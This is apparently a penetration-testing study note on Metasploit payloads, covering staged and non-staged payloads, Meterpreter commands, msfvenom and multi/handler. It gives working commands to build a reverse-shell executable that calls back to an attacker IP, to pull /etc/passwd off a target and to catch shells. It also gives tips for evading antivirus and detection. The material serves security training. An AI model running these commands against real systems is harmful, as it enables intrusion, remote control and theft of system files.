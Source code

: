 ```yaml
---
tags: metasploit, msfvenom
---
```

## Staged vs Non-Staged Payloads

Non-staged payload:
- contains the exploit and the shellcode ("all-in-one")
- more stable
- bigger file size
- name format: e.g. `payload/linux/x64/shell_reverse_tcp`

Staged payload:
- sent in two parts:
	- first part is a small binary payload that causes the victim machine to connect back to the attacker and transfer a larger secondary payload and execute it
	- second part is the rest of the shellcode
- name format: e.g. `payload/linux/x64/shell/reverse_tcp`

Pros of using staged payload:
- suitable for cases where there are space limitations in an exploit
- evade shellcode detection by AV

Show list of payloads compatible with the currently selected module:
`show payloads`

Set a payload for the current exploit module:
`set payload [payload number]`

Run module:
`run`

## Meterpreter Payload
a multi-function payload that can be dynamically extended at run-time
- payload resides entirely in memory on the target
- communication is encrypted by default
- especially useful in the post-exploitation phase
- technically all are staged
	- "non-staged" version includes all components required to launch the session
		- good when bandwidth is limited
	- "staged" version uses a separate first stage to load these components

Show list of payloads compatible with the currently selected module:
`show payloads`

Set a payload for the current exploit module:
`set payload [payload number]`

### Meterpreter commands

Display Meterpreter commands (after running exploit module with Meterpreter payload to obtain a Meterpreter command prompt):
`help`
- command with an 'l' prefix operate on the local system (our Kali machine)

Get info on target computer:
`sysinfo`
`getuid`

Start interactive shell (will run in a new channel):
`shell`

Background a channel:
Ctrl + Z then `y`

List all active channels:
`channel -l`

Interact with a channel:
`channel -i [channel ID]`

Download file to local machine (our Kali machine):
1. Check the local directory:
   `lpwd`
2. Change the local directory to where you want the file to be downloaded to:
   `lcd /home/kali/Downloads`
3. Download file from target machine:
   `download /etc/passwd`
4. Read the newly downloaded file on the local machine:
   `lcat /home/kali/Downloads/passwd`

Upload file to target machine:
`upload [file path on local machine] [directory on target machine to upload to]`
E.g. `upload /usr/bin/unix-privesc-check /tmp/`

> If target machine is Windows, need to escape the backslashes in the path with `\\`

Exit current session:
`exit`

### More info

TCP vs HTTPS Meterpreter payloads:
- Using a HTTPS Meterpreter payload would look like regular encrypted HTTPS traffic, so can evade detection
- If the address of the HTTPS communication endpoint (our Kali machine) is checked, only a 404 Not Found will be returned in the browser

> Since Metasploit is so popular, the detection rates of Metasploit payloads are quite high by security technologies. It is recommended to attempt to obtain an initial foothold in the target with a raw TCP shell, disable or bypass security technologies, then deploy a Meterpreter shell. (Out of scope of this module)

## Executable Payloads
export payloads into various file types and formats such as Windows and Linux binaries, webshells, and more

Tool: msfvenom
- provided in Metasploit for generate these payloads

(on Kali command line)

List payloads:
`msfvenom -l payloads --platform windows --arch x64`
- `-l payloads`: list payloads
- `--platform windows`: specify platform for the payload
- `--arch x64`: specify architecture for the payload

Export payload:
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o nonstaged.exe`
- `-p windows/x64/shell_reverse_tcp`: specify payload
- `LHOST=192.168.119.2 LPORT=443`: assign values to options
- `-f exe`: set output format
- `-o nonstaged.exe`: specify output filename

Then, we can transfer the malicious binary to the target machine and execute it.

> `nc` on our Kali machine only works with non-staged payloads. For staged payloads, we can use Metasploit's *multi/handler* module (works for the majority of staged, non-staged, and more advanced payloads like Meterpreter)

### multi/handler module

In Metaploit command line, select the module with `use`:
`use multi/handler`

Specify the payload of the incoming connection:
`set payload windows/x64/shell/reverse_tcp`

Set options for the payload:
`show options`
`set [option] [value]`

Run module:
`run`

Then, we can run the exported payload binary on the target machine and the Metasploit multi/handler receives the incoming staged payload and provides us with an interactive reverse shell in the context of a session.

### Use cases

- can use them to create executable file types such as PowerShell scripts, Windows executables, or Linux executable files to transfer them to a target and start a reverse shell
- can create malicious files such as web shells to exploit web application vulnerabilities
- can use the generated files from msfvenom as part of a client-side attack

